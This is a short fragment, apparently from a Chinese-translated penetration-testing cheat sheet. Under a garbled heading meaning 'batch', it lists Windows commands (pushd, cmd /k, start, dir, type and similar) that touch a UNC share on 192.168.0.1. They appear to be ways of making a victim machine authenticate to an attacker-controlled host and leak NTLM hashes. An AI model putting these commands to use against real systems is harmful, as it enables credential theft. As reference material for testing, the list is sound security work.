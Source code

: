 ![](img/5d167504f84aea5cb1d56300d4a6c9d8.png)

# 一批

你可以探索许多可能的方法

```
echo 1 > //192.168.0.1/abc 
pushd \\192.168.0.1\abc 
cmd /k \\192.168.0.1\abc 
cmd /c \\192.168.0.1\abc 
start \\192.168.0.1\abc 
mkdir \\192.168.0.1\abc 
type\\192.168.0.1\abc 
dir\\192.168.0.1\abc 
find, findstr, [x]copy, move, replace, del, rename and many more!
```

![](img/68490c076e8f1793f32c6ba25d81da44.png)
